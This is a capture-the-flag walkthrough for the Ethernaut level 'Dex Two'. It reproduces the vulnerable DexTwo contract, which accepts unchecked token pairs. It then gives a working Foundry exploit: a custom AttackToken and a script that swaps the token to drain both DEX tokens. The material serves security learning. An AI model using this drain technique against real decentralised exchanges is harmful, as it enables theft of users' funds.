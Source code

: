 # Level 23 - Dex Two ⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/23" %}

### Level Setup

{% hint style="info" %}
As we've repeatedly seen, interaction between contracts can be a source of unexpected behavior.

Just because a contract claims to implement the [ERC20 spec](https://eips.ethereum.org/EIPS/eip-20) does not mean it's trust worthy.

Some tokens deviate from the ERC20 spec by not returning a boolean value from their `transfer` methods. See [Missing return value bug - At least 130 tokens affected](https://medium.com/coinmonks/missing-return-value-bug-at-least-130-tokens-affected-d67bf08521ca).

Other ERC20 tokens, especially those designed by adversaries could behave more maliciously.

If you design a DEX where anyone could list their own tokens without the permission of a central authority, then the correctness of the DEX could depend on the interaction of the DEX contract and the token contracts being traded.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/DexTwo.sol" %}

{% code lineNumbers="true" fullWidth="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract DexTwo is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function add_liquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapAmount(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
        SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableTokenTwo is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```
{% endcode %}

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-23

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-23

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/f4e23564cf080a22b4540cb7b0b01d0a5ed8c977/src/Level23.sol" %}

{% code title="src/Level23.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

// ================================================================
// │                        LEVEL 23 - DEX TWO                    │
// ================================================================
contract AttackToken is ERC20 {
    constructor(uint256 initialSupply) ERC20("AttackToken", "ATK") {
        _mint(msg.sender, initialSupply);
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/f4e23564cf080a22b4540cb7b0b01d0a5ed8c977/script/Level23.s.sol" %}

{% code title="script/Level23.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

import {AttackToken} from "src/Level23.sol";

// ================================================================
// │                        LEVEL 23 - DEX TWO                    │
// ================================================================
interface IDex {
    function token1() external view returns (address);
    function token2() external view returns (address);
    function swap(address from, address to, uint256 amount) external;
    function approve(address spender, uint256 amount) external;
}

contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        IDex dex = IDex(targetContractAddress);

        uint256 initialAtkSupply = 400;

        vm.startBroadcast();
        // Deploy AttackToken ATK
        AttackToken atk = new AttackToken(initialAtkSupply);

        // Transfer 100 ATK to DEX
        atk.transfer(targetContractAddress, 100);

        // Get token addresses
        address token1 = dex.token1();
        address token2 = dex.token2();

        // Approve DEX to spend ATK
        atk.approve(targetContractAddress, initialAtkSupply);

        // Swap tokens
        dex.swap(address(atk), token1, 100);
        dex.swap(address(atk), token2, 200);

        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
N/A
{% endhint %}

{% embed url="https://github.com/nvnx7/ethernaut-openzeppelin-hacks/blob/e936301859334383d568a614084917100319205e/level_23_Dex-Two.md" %}
